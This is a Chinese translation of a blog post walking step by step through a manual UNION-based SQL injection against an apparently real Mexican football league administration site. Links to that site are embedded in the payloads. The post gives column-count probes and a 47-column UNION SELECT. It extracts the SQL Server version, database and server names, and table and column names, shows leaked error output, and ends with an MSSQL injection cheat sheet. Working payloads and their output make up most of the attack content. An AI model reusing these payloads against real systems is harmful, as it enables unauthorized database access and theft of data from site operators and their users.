







# 有趣的 SQL 注入 2 — MSSQL

> 原文：<https://infosecwriteups.com/fun-sql-injection-2-mssql-f2f3c83d0cf8?source=collection_archive---------1----------------------->

在这个场合，我想一步一步地讲述我最喜欢的另一种注射。

这是一个同事来找我一起测试的站点！

攻击发生的参数用于显示一个 PDF 文档，正是利用这个参数，我们引导自己发现这次注入将有多少列！我们开始了！

首先我们有链接

```
site/ejemplo/parametro[=25527](https://administrador.ligamx.net/php/cmpt/CMPT_InfrArbt.php?pnIDPartido=25527)
```



这样我们就可以看到网站工作正常！..但是，正如大多数容易受到 sql 注入攻击的站点所发生的那样，只需在参数末尾添加一个',就可以看到 SQL 错误

**错误:**

```
site/ejemplo/parametro[=25527](https://administrador.ligamx.net/php/cmpt/CMPT_InfrArbt.php?pnIDPartido=25527)'
```



既然我们已经确定了站点是易受攻击的，并且我们知道我们正在处理的数据库，在本例中是 MSSQL，我们将检测列的数量，为此我们将使用 ORDER BY 函数。

**检测列数**

使用前面提到的函数，我们进行第一次测试，以验证站点是否允许我们使用这种列检测方法。

我们看到的第一件事是，当使用 order by 1 时，站点继续正常工作，但使用 order by 100 时，一切都会下降并向我们显示错误，这是一个非常好的方法，这意味着我们可以使用此方法来检测，例如:

```
site/ejemplo/parametro[=-25527](https://administrador.ligamx.net/php/cmpt/CMPT_InfrArbt.php?pnIDPartido=25527) order by 1 --
```



正如我们之前提到的，通过 1 排序，站点可以继续正常工作

```
site/ejemplo/parametro[=-25527](https://administrador.ligamx.net/php/cmpt/CMPT_InfrArbt.php?pnIDPartido=25527) order by 100 --
```



但是 100 的订单向我们展示了错误。

为了正确地找到列数，我们必须在它显示错误之前更接近该值，我在关于手动 sql 注入的文章中对此进行了更详细的解释，如果您还没有阅读它们，我建议您阅读它们，因为您可以更好地理解这一部分。

示例:

```
Order by 1 ---> sin error
Order by 2 ---> sin error
Order by 3 ---> sin error
Order by 4 ---> error
```

这意味着该网站有 3 列。

回到易受攻击的站点，它有 47 列

```
site/ejemplo/parametro[=-25527](https://administrador.ligamx.net/php/cmpt/CMPT_InfrArbt.php?pnIDPartido=25527) UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47 --
```



正如我们所看到的，添加一个包含 47 列的 union select 改变了错误消息，最有趣的是我们看到红色圆圈内有 2 个数字。

这些数字是易受攻击的列，我们将在这些列中引入句子来显示数据库中的信息！

```
site/ejemplo/parametro[=-25527](https://administrador.ligamx.net/php/cmpt/CMPT_InfrArbt.php?pnIDPartido=25527) UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,'_Y000_ LuisMadero',26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47 --
```



正如我们所看到的，第 25 列允许我们从数据库中写入和接收数据，我们将使用该列进行工作！

**版本**

```
site/ejemplo/parametro[=-25527](https://administrador.ligamx.net/php/cmpt/CMPT_InfrArbt.php?pnIDPartido=25527) UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,@@version,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47 --
```



```
message: Error de conversión al convertir el valor nvarchar 'Microsoft SQL Server 2008 R2 (RTM) - 10.50.1600.1 (X64) 
	Apr  2 2010 15:48:46 
	Copyright (c) Microsoft Corporation
	Standard Edition (64-bit) on Windows NT 6.1 &lt;X64&gt; (Build 7601: Service Pack 1)
' al tipo de datos smallint. (severity 16)
```

现在我们有了数据库的版本！

**数据库**

```
site/ejemplo/parametro[=-](https://administrador.ligamx.net/php/cmpt/CMPT_InfrArbt.php?pnIDPartido=25527)25527 UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,(select top 1  name FROM master..sysdatabases),26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47--
```

现在，要获得我正在使用的数据库的名称:

```
(select top 1 name FROM master..sysdatabases)
```

因为数据库中易受攻击的函数的语法不允许我反映一个以上的值，也不允许连接。

因此，它给我的数据库的名称是“ADPR”。

**@ @服务器名**

为了知道这个值，我们只使用下面的有效载荷

```
-25527UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,@@SERVERNAME,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47
```

**列表表格**

要列出这些表，找到一个有效负载有点困难，因为正如我前面提到的，这个数据库不允许我同时显示多个结果，使用这个有效负载:

```
-25527UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,table_name,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47 from (select top 1 table_name from information_schema.tables order by 1) as a order by 1 desc--
```

我们使用“top 1”来列出该表，在本例中，数字 1 表示数据库中的 1 号表。

这种情况下。这个表叫做“CDLA Partidos”

**列表栏**

为此，我们使用前面有效负载的变体，但是现在我们将重点放在枚举该表的列上。

```
-25527UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,column_name,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47 from (select top 1 column_name from information_schema.columns where table_name='_CDLA_Partidos' order by 1) as 1 order by 1 desc--
```

按照同样的逻辑，更改“top”的数字会显示下一列。

第一列的名称称为“Prtd_IDPartidos”

> ***注意:我将把这个注入留到这里，不会显示太多信息，因为我不想损害站点。表格和列的名称说明了很多……***

**MSSQL SQL 注入作弊工具**

```
--           :     Comment Type 1
--+          :     Comment Type 2
--+-         :     SQL Comment
/**/         :     Inline Comment
;%00         :     Null Byte@@version    :     Current Version
user_name()  :     Current User
user         :     Current User
db_name()    :     Current Database
@@SERVERNAME :     HostnameTablesunion select table_name from (select top 1 table_name from information_schema.tables order by 1) as 1 order by 1 desc--Columnsunion select column_name from (select top 1 column_name from information_schema.columns where table_name='table' order by 1) as 1 order by 1 desc--Dump infounion select culumn form table--
```